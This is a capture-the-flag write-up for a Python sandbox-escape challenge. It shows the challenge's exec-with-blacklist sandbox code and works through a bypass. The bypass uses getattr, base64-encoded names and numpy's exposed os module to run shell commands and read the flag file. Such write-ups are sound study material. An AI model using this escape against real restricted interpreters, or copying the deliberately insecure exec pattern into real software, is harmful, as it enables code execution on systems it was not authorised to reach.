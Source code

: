 # Slithery

## Problem description

Setting up a new coding environment for my data science students. Some of them
are l33t h4ck3rs that got RCE and crashed my machine a few times :(. Can you
help test this before I use it for my class? Two sandboxes should be better
than one...

```nc pwn.chal.csaw.io 5011```

[sandbox.py](https://ctf.csaw.io/files/f273beef210bb77ed37ab74d82cb9799/sandbox.py?token=eyJ1c2VyX2lkIjo1MzYzLCJ0ZWFtX2lkIjo1MzI3LCJmaWxlX2lkIjo3NDMwfQ.X14Svg.zXKY8HMMgjM64swHwOaCZeUN5aE)

Category: pwn. Points: 100.

### sandbox.py
```
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```

## Personal note
First time solving a pwn challenge. It was fun to do a python challenge,
and I also learned some new things about the python language.

## Tools
* python3 interpreter

## Solving the challenge
This is a coding environment that accepts python commands. However, there is
a blacklist, meaning a lot of our input will not be accepted. We need to get
around the blacklist to execute the commands that will let us read the flag.

This would be the naive approach (without the blacklist):
```
>>> import os
>>> # List files in current directory, hopefully the flag is there
>>> os.system("ls")
>>> # Assuming the flag is located in flag.txt
>>> os.system("cat flag.txt") # Output file content
```

Connecting via netcat: `nc pwn.chal.csaw.io 5011`

```
EduPy 3.8.2
>>> import os
Exception: not allowed!!
>>> import
Exception: not allowed!!
>>> os
Exception: not allowed!!
>>> system
Exception: not allowed!!
```

Thus, we can not import modules the traditional way, and the words "os" and "system"
are blacklisted. So we need to find another way to get the flag. Examining sandbox.py
gives us some hints. We have access to the script variables from the coding environment,
but the easiest way to examine how the code works (without being bothered by
the blacklist) is to paste it into our own python3 interpreter:

```
>>> uOaoBPLLRN = open("sandbox.py", "r")
>>> uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
>>> ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
>>> AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
>>> bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
>>> uOaoBPLLRN.close()
>>> HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
>>> RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))

# Examining variables
>>> print(AAnBLJqtRv)
base64
>>> print(bAfGdqzzpg)
b64decode
>>> print(HrjYMvtxwA)
<function b64decode at 0x7f2dfcadf2f0>
>>> print(RMbPOQHCzt)
<module 'numpy' from PATH+'/__init__.py'>
```

Now we know we can b64decode strings using the HrjYMvtxwA variable. This could
be a way to circumvent the blacklist.

Maybe we can put code into b64encoded strings, b64decode the strings,
and then run the decoded strings with either eval or exec?

Checking the coding environment:
```
EduPy 3.8.2
>>> eval
Exception: not allowed!!
>>> exec
Exception: not allowed!!
```

Seems eval or exec will not work. However, we also have access to the numpy module.
We can examine the numpy module further in our own python3 interpreter:
```
>>> print(RMbPOQHCzt.__dict__)
```

This module has a lot of attributes. For instance, I noticed that the sys
module is exposed through the numpy module.
```
>>> print(RMbPOQHCzt.sys)
<module 'sys' (built-in)>
```

So let's see if the os module is also exposed:
```
>>> print(RMbPOQHCzt.os)
<module 'os' from PATH+'os.py'>
```

This looks really promising. However, we still have the problem that we can not access
the os property directly from the coding environment, since the word "os" is blacklisted. To get around this restriction, we can first b64encode the word, and then b64decode it.
The problem then is that we will only have access to "os" as a string.
It is not possible to get a property using a string when using dot notation.

```
>>> print(RMbPOQHCzt."os")
  File "<stdin>", line 1
    >>> print(RMbPOQHCzt."os")
     ^
SyntaxError: invalid syntax
```

Actually, sandbox.py uses an alternative approach to access base64.b64decode:
```
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
```

Let's find out more:
```
>>> help(getattr)

Help on built-in function getattr in module builtins:

getattr(...)
    getattr(object, name[, default]) -> value

    Get a named attribute from an object; getattr(x, 'y') is equivalent to x.y.
```

Using `getattr`, it should be possible to access the os property through "os" as a string.

Let's craft our solution in our own interpreter before trying it in the coding environment:
```
>>> base64.b64encode(b'os')
b'b3M='
>>> base64.b64encode(b'system')
b'c3lzdGVt'
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls") # Equivalent to os.system("ls")
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt") # Assuming flag is in flag.txt

```

Connecting to the coding environment:
```
$ nc pwn.chal.csaw.io 5011
EduPy 3.8.2
>>> o = getattr(RMbPOQHCzt, HrjYMvtxwA(b'b3M=').decode('utf-8'))
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("ls")                      
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
>>>
>>> getattr(o, HrjYMvtxwA(b'c3lzdGVt').decode('utf-8'))("cat flag.txt")
flag{y4_sl1th3r3d_0ut}
```

Finally, we obtain the flag: \
`flag{y4_sl1th3r3d_0ut}`
